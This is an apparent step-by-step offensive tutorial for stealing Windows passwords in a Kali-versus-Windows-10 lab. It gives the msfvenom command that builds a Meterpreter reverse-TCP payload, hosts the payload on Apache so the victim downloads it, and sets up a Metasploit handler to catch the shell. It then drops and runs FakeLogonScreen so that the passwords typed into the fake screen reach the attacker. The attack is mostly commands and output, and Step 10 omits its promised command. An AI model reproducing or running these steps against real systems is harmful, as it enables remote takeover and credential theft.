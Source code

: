## Windows Password Fishing with Fake Login Screen

# Things You Need:
* Kali Linux Machine (attacking machine).
* Windows 10 (victim machine).

# Step 1:
Start your Kali Linux machine and download the fake login screen from [here](https://github.com/bitsadmin/fakelogonscreen/releases)

![image1](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_LVw4yPzVvtjmrfMdAwMkw.png)

# Step 2:
Now unzip the file using the command

unzip <file-name>.zip

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YJ_Fidq-fKkRmnCES8G-8g.png)

# Step 3:
After doing this you have to create a malicious payload using msfvenom. The exploit is as follow.

msfvenom -p windows/meterpreter/reverse_tcp lhost=<listning-ip> lport=<listning-port> -f exe >> <file-name-you-want-to-create>.exe

It’s creating a Meterpreter reverse TCP shell payload for a Windows target. Meterpreter is an advanced, dynamically extensible payload that operates in memory.

![image1](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*s9ju1fzKx6Qf70kkcQrGvQ.png)

![image1](https://miro.medium.com/v2/resize:fit:464/format:webp/1*abBUYoHzSYIBeJZnA6fHhg.png)

# Step 4:
First create a directory by the name of share in the location mentioned below and then paste the file that you have created in the directory. (LOCATION: /var/www/html)

cd /var/www/html
sudo mkdir share

Go back to the location where you have created the .exe file and then use this command to paste the file into the directory that you have made.

sudo cp <file-name> /var/www/html/shares/

# Step 5:
Now turn on the Apache2 server by using the following command

sudo service apache2 start

![image1](https://miro.medium.com/v2/resize:fit:522/format:webp/1*IaQyUeHH9IXhzm0CF1EocA.png)

# Step 6:
Now open up your windows 10 machine and then open your favorite browser and by using this format open the server.

http://<ip-address-of-attacking-machine>/share

![image1](https://miro.medium.com/v2/resize:fit:316/format:webp/1*SvQoqF2Jr_DEazGT9VCNCQ.png)

As you can see the file you created is there. So you have to simply download the file from the HTTP Server.

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*cjYd-6MIwIjo0QhQtptvtg.png)

![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/f27d6212-ea98-479c-b6d1-805ffaf1c720)

# Step 7:
After this go back to your Kali Linux machine and start the metasploit tool. First the command to set the module.

use multi/handler

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Cw4DrI4hQW-SLJtiwXPNRw.png)

# Step 8:
Then set the Payload, LHOST, and LPORT parameters by using the commands below.

set LHOST <ip-address-of-your-machine>
set LPORT 4444 // it would be set to 4444 by default
set payload windows/meterpreter/reverse_tcp

![image1](https://miro.medium.com/v2/resize:fit:750/format:webp/1*vHNY-jUFytRV_RgulOjWhg.png)

# Step 9:
After this use any of the commands mentioned bellow to execute the exploit. After typing the command click the .exe file in the windows to start a connection.

run
exploit

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hiUqGtFgl3-99E0efg0Gzw.png)

# Step 10:
Now upload the file from your Linux machine to the windows machine in the LOCATION: /root/Downloads/FakeLogonScreen.exe (where my file was downloaded) by using the command.


![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/076e3ac5-bb86-4daa-a1de-2da143f3ec7e)

# Step 11:
Now type the command below to enter the windows cmd.

shell

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*viV7AJUGhsU60otvRrgpuw.png)

# Step 12:
After this run .exe file by just entering the download directory and typing the name of file i.e. FakeLogonScreen.exe

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ij0x4IIrUuMs-sVci46jiw.png)

# Step 13:
After doing everything right you’ll see that all the running files on the windows will close and a login screen will open. Upon typing the password you’ll receive the feedback on the meterpreter terminal.

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1jhonIDkgaOJZmRIZVhYLA.png)

# Step 14:
Now type in the password. If you’ll type in the wrong password. It will tell on the terminal that the password is wrong and when you’ll type in the correct password It’ll tell that it is the correct one.

![image1](https://miro.medium.com/v2/resize:fit:390/format:webp/1*1YA-dSqxhBBdbV9e9jzJnA.png)

As I was in my personal user so I can’t compromise that. So I created a test user in order to exploit it. So i again went through all the stuff and yah eventually got the password.

![image1](https://miro.medium.com/v2/resize:fit:494/format:webp/1*H8PTsDeajlosP4tJB5WCkA.png)

## Use it for educational purpose only...
